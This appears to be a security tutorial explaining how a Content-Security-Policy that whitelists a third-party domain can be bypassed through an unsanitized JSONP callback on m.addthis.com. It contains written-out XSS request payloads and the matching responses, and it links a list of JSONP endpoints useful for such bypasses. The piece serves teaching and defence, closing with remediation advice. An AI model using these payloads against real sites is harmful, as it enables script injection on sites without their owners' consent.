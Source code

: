 
# Bypassing CSP with JSONP Endpoints

## Introduction

HTTP's Content-Security-Policy (CSP) mechanism provides a means to instruct
web browsers to apply various restrictions to the content returned by any
given HTTP request. Such content could actually be under the control of a
malicous party if a vulnerability such as Cross-Site Scripting (XSS) exists.
A CSP policy can instruct browsers to only execute scripts from particular
sources, not the vulnerable returned content, and thereby providing a
secondary layer of protection against XSS attacks.

There are some circumstances under which CSP policies can be evaded. This
article will examine defeating a CSP policy abusing JSONP endpoints that
reside on a site that the CSP policy considers trusted.

## A Demonstration of Breaking CSP with JSONP Endpoints

### Example Web Site

First, let's take a look at a page on our example web site at
www.example.com/csp that contains a trivial XSS vulnerability.

A request with a XSS payload:

```
GET /csp/?name=Hal<script>alert(222)</script> HTTP/1.1
Host: www.example.com
```

And the response with the payload returned verbatim:

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
...

<html>
<body>
Hello Hal<script>alert(222)</script>
</body>
</html>
```

Needless to say, this executes in a browser:

![Demonstration Payload Executing in a Browser][20_hello_ss]

Now let's try mitigating this using CSP.  As part of our remediation
efforts, we add a Content-Security-Policy response header as a safeguard
against any XSS vulnerabilities on our site.  We whitelist m.addthis.com
because we use AddThis on some other pages on our www.example.com site. 
Here's the same response to the above request with our CSP:

```
HTTP/1.1 200 OK
Content-Security-Policy: script-src https://m.addthis.com
Content-Type: text/html; charset=utf-8
...

<html>
<body>
Hello Hal<script>alert(222)</script>
</body>
</html>
```

We can now see that thanks to CSP, the payload no longer executes in a
browser. Furthermore, a violation error message is logged in the console:

![XSS Payload Blocked by CSP][40_blocked_with_csp_ss]

There's a problem, however. m.addthis.com contains a JSONP endpoint at
/live/red_lojson/100eng.json.  

Here's an example of normal useage:

```
GET /live/red_lojson/100eng.json?callback=exampleCallback HTTP/1.1
Host: m.addthis.com
```

```
HTTP/1.1 200 OK
Content-Type: application/javascript;charset=utf-8
...

exampleCallback({"loc":"NDQxMjdOQVVTT0gyMjE1MDk4MzUxMDAwMDBDSA=="});
```

This JSONP endpoint at m.addthis.com is particularly helpful because the
input is not sanitized at all.  Anything in the "callback" query string
parameter is returned verbatim as a script. We can change the "callback"
parameter to make m.addthis.com return completely arbitrary Javascript:

```
GET /live/red_lojson/100eng.json?callback=alert(222)// HTTP/1.1
Host: m.addthis.com
```
```
HTTP/1.1 200 OK
Content-Type: application/javascript;charset=utf-8
...

alert(222)//({"loc":"NDQxMjdOQVVTT0gyMjE1MDk4MzUxMDAwMDBDSA=="});
```

Now let's modify our previous request to use this to bypass CSP:

```
GET /csp/?name=Hal<script+src%3d"https%3a//m.addthis.com/live/red_lojson/100eng.json%3fcallback%3dalert(222)//"></script> HTTP/1.1
Host: www.example.com
```
```
HTTP/1.1 200 OK
Content-Security-Policy: script-src https://m.addthis.com
Content-Type: text/html; charset=utf-8
...

<html>
<body>
Hello Hal<script src="https://m.addthis.com/live/red_lojson/100eng.json?callback=alert(222)//"></script>
</body>
</html>
```

Now our Javascript payload is returned from the whitelisted m.addthis.com
domain instead of www.example.com:

![CSP Bypassed][50_csp_bypassed]

The CSP has been successfully bypassed and our code is executing thanks to
the unconsidered JSONP endpoint in a whitelisted domain.

## Conclusion

CSP is a powerful mechanism which can prevent the exploitation of XSS
vulnerabilities.  However, always remember that it is a secondary layer of
protection.  Always strive to fix vulnerabilities at their source and not
rely exclusively on a safety net.

### References

Ebrahem Hegazy's list of public JSONP endpoints useful for CSP bypass: 
https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt

Google's CSP Evaluator tool: https://csp-evaluator.withgoogle.com/

[20_hello_ss]: 20_hello_ss.png "Screen Shot of XSS Payload Executing"
[50_csp_bypassed]: 50_csp_bypassed.png "Screen Shot of XSS Payload Bypassing CSP"
[40_blocked_with_csp_ss]: 40_blocked_with_csp_ss.png  "Screen Shot of XSS Payload Blocked by CSP"
